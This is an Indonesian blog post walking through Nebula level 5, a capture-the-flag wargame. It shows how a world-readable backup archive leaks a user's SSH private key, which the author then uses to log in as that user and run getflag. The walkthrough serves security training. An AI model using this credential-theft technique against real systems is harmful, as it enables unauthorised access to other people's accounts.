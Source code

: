 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-18T07:32:47+00:00"
description = "Security Wargames"
featured = "CHGiTVRW_o.jpg"
featuredalt = "Nebula Level05"
featuredpath = "https://images2.imgbox.com/c3/5b"
linktitle = ""
title = "Exploit Exercises - Nebula Level05"
type = "post"

+++
{{< url-link "Level05" "https://exploit-exercises.com/nebula/level05/" "target">}} menginstruksikan kita untuk memeriksa direktori /home/flag05 dan mencari direktori yang mempunyai permission kurang aman.

Setelah menavigasi ke /home/flag05, kita bisa melihat permissionnya:

    	level05@nebula:~$ pushd /home/flag05/
        level05@nebula:/home/flag05$ ls -al
        total 5
        drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
        drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
        drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
        -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
        -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
        -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
        drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

Direktori hidden backup itu terlihat menarik perhatian karena ia memiliki permission world-readable dan execute. Mari kita lihat isinya:

          level05@nebula:/home/flag05$ cd .backup/
          level05@nebula:/home/flag05/.backup$ ls -al
          total 2
          drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
          drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
          -rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz

Setelah dilihat, ada file backup. Mari ekstrak ke direktori /home/level05 dan lihat isinya:

          level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05/
          .ssh/
          .ssh/id_rsa.pub
          .ssh/id_rsa
          .ssh/authorized_keys

Outputnya menunjukkan pasangan key publik/privat. Mari mencoba login sebagai flag05 menggunakan key tersebut.

          level05@nebula:/home/flag05/.backup$ popd
          level05@nebula:~$ ls .ssh
          authorized_keys  id_rsa  id_rsa.pub
          level05@nebula:~$ ssh flag05@localhost
          The authenticity of host 'localhost (127.0.0.1)' can't be established.
          RSA key fingerprint is 67:fe:f4:09:cd:0f:ba:dd:87:2b:73:2c:80:31:c2:68.
          Are you sure you want to continue connecting (yes/no)? yes
          Warning: Permanently added 'localhost' (RSA) to the list of known hosts.
    
              _   __     __          __
             / | / /__  / /_  __  __/ /___ _
            /  |/ / _ \/ __ \/ / / / / __ `/
           / /|  /  __/ /_/ / /_/ / / /_/ /
          /_/ |_/\___/_.___/\__,_/_/\__,_/
    
          exploit-exercises.com/nebula
    
    
          For level descriptions, please see the above URL.
    
          To log in, use the username of "levelXX" and password "levelXX", where
          XX is the level number.
    
          Currently there are 20 levels (00 - 19).
    
    
          Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)
    
          * Documentation:  https://help.ubuntu.com/
          New release '12.04 LTS' available.
          Run 'do-release-upgrade' to upgrade to it.
    
    
          The programs included with the Ubuntu system are free software;
          the exact distribution terms for each program are described in the
          individual files in /usr/share/doc/*/copyright.
    
          Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
          applicable law.
    
          flag05@nebula:~$ getflag
          You have successfully executed getflag on a target account

Dan berhasil, setelah login sebagai flag05, saya menjalankan perintah getflag untuk memverifikasi penyelesaian level05.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/iwS9k0oYWS0?rel=0"></iframe></div></div>